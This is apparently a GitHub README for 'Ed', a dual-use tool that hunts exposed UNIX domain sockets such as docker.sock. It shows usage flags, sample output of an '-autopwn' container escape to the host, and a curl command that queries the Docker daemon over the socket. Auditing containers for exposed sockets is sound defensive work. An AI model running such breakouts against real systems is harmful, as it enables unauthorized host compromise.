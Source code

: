 # ed
Ed is a tool used to identify and exploit accessible UNIX Domain Sockets

# What does it do?
Ed is a binary to help you find and exploit accessible UNIX domain sockets on a container or host. This is useful for hunting Docker.sock when it has been mounted to a non-default location and or not mounted with the default name i.e  "/var/run/Docker.sock".

# Why ed?
Finding exposed UNIX domain sockets, especially Docker.sock, is very useful ;) Ed can be useful in a DevOps process to ensure that containers do not have any unnecessarily exposed sockets or it can be used to exploit exposed sockets to achieve container breakout.

# Usage
Ed can be used to look for plain 'ol UNIX domain sockets, UNIX domain sockets that respond to HTTP requests or UNIX domain sockets that behave like Docker.sock. Ed by default searches from the CWD. To use Ed, get the binary on the host and use the following options:

 ```
  ./ed -h
[+] Hunt 'dem Socks
Usage of ./ed:
  -autopwn
        Attempt to autopwn exposed sockets
  -docker
        Hunt for docker.sock
  -http
        Hunt for Available UNIX Domain Sockets with HTTP
  -interfaces
        Display available network interfaces
  -json
        Return output in JSON format
  -path string
        Path to Start Scanning for UNIX Domain Sockets (default ".")
  -socket
        Hunt for Available UNIX Domain Sockets (default true)
  -verbose
        Verbose output

```

Example: Autopwn exposed Docker Domain Socket

```
root@2ae7f389d44c:/app# ./ed -path=/ -autopwn=true
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /tmp/docker.mock
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to Autopwn:  /tmp/docker.mock
[*] Getting Docker client...
[*] Successfully got Docker client...
[+] Attempting to escape to host...
You are now on the underlying host
/ # 
/ # exit
[*] Successfully exited TTY
[+] Finished
```

 Example: Look for exposed Docker.sock
 
 ```
 root@2ae7f389d44c:/app# ./ed -path=/    
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /run/docker.sock
 
 ```
 
 And now that you have found an exposed Docker socket, you could go ahead and issue commands to the Docker daemon using CURL:
 
 ```
 root@70a7cf3d4f93:/app# curl --unix-socket  /var/run/docker.sock http:/docker/info
 ..l00t
 ```
 
 # Testing
Ed can be tested with Docker, WARNING, mouting Docker.sock into containers is a very bad idea but if you want to test Ed, you can with the following:

```
docker-compose build && docker-compose up
...
worker_1_fd52bdee04ce | [+] Hunt 'dem Socks
worker_1_fd52bdee04ce | [+] Hunting Down UNIX Domain Sockets from: /
worker_1_fd52bdee04ce | [*] Valid Socket: /run/docker.sock
ed_worker_1_fd52bdee04ce exited with code 0

```

# Demo

[![asciicast](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA.png)](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA)
 
 # License
 Ed is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).
